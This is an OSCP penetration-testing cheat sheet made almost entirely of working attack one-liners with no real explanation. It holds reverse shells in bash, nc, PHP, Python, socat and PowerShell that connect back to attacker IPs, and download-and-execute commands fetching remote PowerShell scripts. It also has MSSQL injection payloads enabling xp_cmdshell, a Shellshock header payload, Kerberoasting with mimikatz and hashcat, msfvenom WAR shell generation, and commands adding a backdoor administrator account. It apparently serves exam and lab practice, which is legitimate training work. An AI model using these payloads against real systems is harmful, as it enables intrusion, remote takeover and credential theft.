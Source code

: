 ```yaml
---
title: OSCP Cheat Sheet
date: 2021-06-13 06:25:40
tags:
- OSCP
- Penetration Test

---
```


# Pentest Cheatsheet

Bash reverse shell

```bash
bash -i >& /dev/tcp/192.168.19.35/8907 0>&1
```

```bash
/bin/bash -c "/bin/bash -i >& /dev/tcp/192.168.119.142/8908 0>&1"
```

Shellshock

```bash
curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'id'" \
http://localhost:8080/cgi-bin/test.bin | tail
```

python PTY upgrade

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

MSSQL enable xp_cmdshell

```sql
';exec sp_configure 'xp_cmdshell', 1; RECONFIGURE;--
```

MSSQL reverse shell with one-liner

```sql
exec master..xp_cmdshell "powershell -c iex(New-Object net.webclient).DownloadString('http://192.168.119.142:12345/Invoke-PowerShellTcpOneLine.ps1')"
```

MSSQL enable xp_cmdshell and exec

```sql
';exec sp_configure 'xp_cmdshell', 1; RECONFIGURE;exec master..xp_cmdshell "powershell -c iex(New-Object net.webclient).DownloadString('http://192.168.119.142:12345/Invoke-PowerShellTcpOneLine.ps1')";--
```

MSSQL check for stack query

```sql
'; WAITFOR DELAY '0:0:5'; --
```

nc reverse shell

```bash
nc -e /bin/bash 192.168.119.142 8907
```

PHP reverse shell with python

```php
<?php system("python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"192.168.119.142\",8907));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);'");?>
```

PHP reverse shell with python with double quote escaped

```php
<?php system("python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"192.168.119.142\",8907));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'");?>
```

PHP reverse shell with bash -c

```php
<?php system("/bin/bash -c 'bash -i >& /dev/tcp/\"192.168.119.142\"/443 0>&1'");?>
```

PHP reverse shell with bash (won't work on /bin/sh -> /bin/dash)

```php
php -r 'exec("/bin/bash -i >& /dev/tcp/192.168.119.142/8908 0>&1");'
```

PHP reverse shell with bash -c with double quote escaped

```bash
php -r 'exec("/bin/bash -c \"/bin/bash -i >& /dev/tcp/192.168.119.142/8908 0>&1\"");'
```

socat TTY upgrade

```bash
socat file:`tty`,raw,echo=0 tcp-listen:8908
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:192.168.119.142:8908
```

curl multipart/form-data file upload example

```bash
curl -F files=@ciph3r.php http://10.11.1.123/books/apps/jquery-file-upload/server/php/index.php
```

Powershell reverse shell

```powershell
powershell -c iex(New-Object net.webclient).DownloadString('http://192.168.119.142:12345/Invoke-PowerShellTcpOneLine.ps1')
```

Kerberoast

```powershell
# Get Users with SPNs
.\GetUserSPNs.sp1
# Get Service Tickets
Add-Type -AssemblyName System.IdentityModel
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "MSSQLSvc/xor-app23.xor.com:1433"
# Extract Tickets
mimikatz # kerberos::list /export
# Crack Tickets with tgsrepcrack.py
./tgsrepcrack.py rockyou.txt 2-40a10000-xor-app59\$@MSSQLSvc\~xor-app23.xor.com\~1433-XOR.COM.kirbi
# Or Hashcat/JohnTheRipper(much faster)
./kirbi2john.py ../2-40a10000-xor-app59\$@MSSQLSvc\~xor-app23.xor.com\~1433-XOR.COM.kirbi >> ../kerberos.hash
.\hashcat.exe -m 13100 -a 0 F:\kerberos.hash F:\rockyou.txt
```

Powershell Invoke-WebRequest

```powershell
powershell -c Invoke-WebRequest http://192.168.119.142:12345/
```

Java War file reverse shell

```shell
msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.119.142 LPORT=8907 -f war > cipher.war
```

Windows show hidden files

[How-to｜Show Hidden Files Using Command Lines in Windows 10/8/7](https://www.diskpart.com/articles/show-hidden-files-command-line-8523.html)

```powershell
dir /a:h /b /s
```

MSSQL get other table from other databse

```sql
SELECT other_database..syscolumns.name, TYPE_NAME(other_database..syscolumns.xtype),NULL FROM other_database..syscolumns, other_database..sysobjects WHERE other_database..syscolumns.id=other_database..sysobjects.id AND other_database..sysobjects.name='other_table'--
```

Windows create remote login user

```powershell
net user /add cipher cipher
net localgroup administrators cipher /add
```

Runas Administrator

```powershell
runas /user:administrator <command>
```

Openssl Generate passwd

```bash
openssl passwd -1 -salt cipher cipher
```